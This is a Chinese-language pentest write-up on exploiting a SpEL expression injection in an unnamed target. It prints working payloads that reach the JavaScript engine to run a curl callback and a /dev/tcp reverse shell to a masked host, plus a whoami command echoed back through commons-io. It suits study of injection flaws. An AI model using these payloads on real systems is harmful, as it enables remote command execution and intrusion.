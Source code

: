 # 记一次SPEL表达式注入

### 前言

一位师傅找到我测一下某目标发现的表达式注入，据说尝试了好几个exp都没反应。

### 投石问路

测试发现支持`.`符号调用静态方法，至少知道直接调用静态方法时不需要New对象。

![image-20220926112820464](记一次SPEL表达式注入.assets/image-20220926112820464.png)

测试发现不支持OGNL的New语法，说明不是OGNL；

![image-20220926112633723](记一次SPEL表达式注入.assets/image-20220926112633723.png)

试了试EL表达式的语法，貌似也不是直接的EL表达式；

![image-20220926114036686](记一次SPEL表达式注入.assets/image-20220926114036686.png)

---

三大表达式已知两个不是，剩下的比较大可能性就是SPEL。

试了一下感觉是spel表达式，通过`.`去调用不存在的方法时会报错，可以以此来找寻可用的方法和依赖。

调用js引擎解析执行命令绕过成功。

```java
${"".class.class.getMethod("newInstance").invoke("".class.forName("javax.script.ScriptEngineManager")).getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec('curl http://x.x.x.x:8888/a.png')")
}
```

![image-20220926121601084](记一次SPEL表达式注入.assets/image-20220926121601084.png)

目标出网就好办了，可以试试nc反弹shell

![image-20220926120610143](记一次SPEL表达式注入.assets/image-20220926120610143.png)

---

试了弹shell没反应

```java
${"".class.class.getMethod("newInstance").invoke("".class.forName("javax.script.ScriptEngineManager")).getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec('bash -i >& /dev/tcp/x.x.x.x/8888 0>&1')")
}
```

![image-20220926121502925](记一次SPEL表达式注入.assets/image-20220926121502925.png)

### 改造Payload为回显exp

根据返回值判断可以近似于如下的状况，也就是说存在回显的可能：

```java
catch(error){
    System.out.println("开始时间");
    System.out.println(表达式执行(表达式));
    System.out.println("格式有误。。。");
}

```

调整payload，以求获得可以通过System.out.println()输出的回显。一般就是用JDK原生的`java.io.BufferedReader`或者第三方依赖的`common-io`等，记得先用java验证一下。

![image-20220926165203002](记一次SPEL表达式注入.assets/image-20220926165203002.png)

这边试了几个之后，发现确实存在common-io的依赖，因此可以构造payload：

```java
${"".class.class.getMethod("newInstance").invoke("".class.forName("javax.script.ScriptEngineManager")).getEngineByName("js").eval("org.apache.commons.io.IOUtils.toString(java.lang.Runtime.getRuntime().exec('whoami').getInputStream())")}
```

![image-20220926170526229](记一次SPEL表达式注入.assets/image-20220926170526229.png)

